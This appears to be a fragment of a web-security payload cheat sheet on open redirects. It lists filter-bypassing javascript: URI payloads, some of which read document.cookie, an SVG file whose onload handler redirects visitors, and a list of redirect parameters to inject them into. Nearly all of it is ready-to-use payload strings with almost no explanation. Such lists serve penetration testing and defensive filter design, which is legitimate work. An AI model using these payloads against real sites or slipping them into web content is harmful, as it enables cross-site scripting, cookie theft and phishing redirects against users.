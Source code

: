 ```bash
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

<details><summary>More modern URL-based bypass payloads</summary></details>

## Open Redirect uploading svg files

```html
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

## Common injection parameters

```text
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
```